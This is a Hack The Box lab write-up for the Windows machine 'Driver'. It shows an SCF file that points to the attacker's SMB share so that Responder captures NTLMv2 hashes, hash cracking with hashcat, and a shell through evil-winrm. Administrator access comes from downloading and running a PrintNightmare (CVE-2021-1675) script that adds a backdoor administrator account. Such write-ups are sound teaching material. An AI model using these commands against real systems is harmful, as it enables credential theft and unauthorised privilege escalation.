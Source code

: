 ```yaml
---
layout: post
title: Hack The Box - Driver
disass:
  - url: /assets/images/htb-driver/driver-1.png
    image_path: /assets/images/htb-driver/driver-1.png
    title: description
  - url: /assets/images/htb-driver/driver--2.png
    image_path: /assets/images/htb-driver/driver--2.png
    title: other
categories:
  - hackthebox
slug: hack-box-driver
---
```

## Challenge description

[https://app.hackthebox.com/machines/Driver](https://app.hackthebox.com/machines/Driver)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1,65535 -- -A -sC

PORT     STATE SERVICE      REASON  VERSION
80/tcp   open  http         syn-ack Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        syn-ack Microsoft Windows RPC
445/tcp  open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-01-17T02:16:50
|_  start_date: 2022-01-16T20:40:33
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25778/tcp): CLEAN (Timeout)
|   Check 2 (port 18115/tcp): CLEAN (Timeout)
|   Check 3 (port 26928/udp): CLEAN (Timeout)
|   Check 4 (port 15033/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s
```

### SMB Enumeration

All tools I used reported no open share

### Web Enumeration

Browsing to http://driver.htb gets us to a basic authentication login prompt. After trying a couple usual default password, I manage to log in with admin/admin.

After logging in, we get to what looks like a printer admin page.

On the "Firmware Updates" tab, we can upload a file and the page says :

*Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.*

It's a pretty clear indication that "someone" or "something" will check the file we upload.

After trying some upload tricks, well, no tricks are needed. There are no restriction what so ever.

## Exploitation && Foothold

Let's read this again:

*Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.*

It says that our uploaded file will be placed on their file share which implies that someone will browse the share.

Let's do a SCF file attack

Per [Pentestlab.blog](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/):

*However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.*

*When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.*

```
$ cat << EOF > exploit.scf       
[Shell]
Command=2
IconFile=\\10.10.14.74\share\exploit.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

We can now upload our exploit using the firmware update page and wait for responder to capture hashes:

```
$ sudo responder -w --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[...]

[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:90915e30a4d61b55:EFD5982FC730F2132B289A758EF1AB26:010100000000000017D7481F870BD801DADD4A94693D22FF00000000020000000000000000000000
[...]
```

Now, let's crack it and use the password to log on the target:

```
$ hashcat -a 0 -m 5600 hashes /opt/wordlists/rockyou.txt 
hashcat (v6.2.5) starting

[...]
TONY::DRIVER:a4a1daba2e76ad05:597b6b92e2114645d6f9cf39f3a315ff:01010000000000007212b4fe870bd8011aa3e96919e9f60000000000020000000000000000000000:liltony
[...]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents> more c:\users\tony\desktop\user.txt
(redacted)
```

## Privilege Escalation

To escalate our privileges to administrator, we'll be exploiting a recently discovered vulnerability affecting the Windows print spooler.

First, download the [exploit](https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1) and open a winrm session using Evil-Winrm using the -s option to load the folder containing the exploit.

The exploit script will allow us to create a new admin local user.

```
$ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1 -O /tmp/driver/CVE-2021-1675.ps1

2022-01-17 08:55:58 (7.46 MB/s) - ‘CVE-2021-1675.ps1’ saved [178561/178561]

$ evil-winrm -i $ip -u tony -p liltony -s /tmp/driver

*Evil-WinRM* PS C:\Users\tony\Documents>
```

When Evil-Winrm is opened with the -s (--scripts) option, all the scripts inside the folder becomes directly accessible within the winrm session. Let's load and run the exploit to create our backdoor user.

```
*Evil-WinRM* PS C:\Users\tony\Documents> CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> invoke-nightmare -newuser h3x -newpass h3xp4ss!
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user h3x as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

*Evil-WinRM* PS C:\Users\tony\Documents> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
h3x
The command completed successfully.

*Evil-WinRM* PS C:\Users\tony\Documents> exit
```

Now let's use our new user to get admin privileges.

```
$ evil-winrm -i $ip -u h3x -p h3xp4ss!                         

Evil-WinRM shell v3.3

*Evil-WinRM* PS C:\Users\h3x\Documents> more c:\users\administrator\desktop\root.txt
(redacted)
```

Thanks for reading <3

h3x
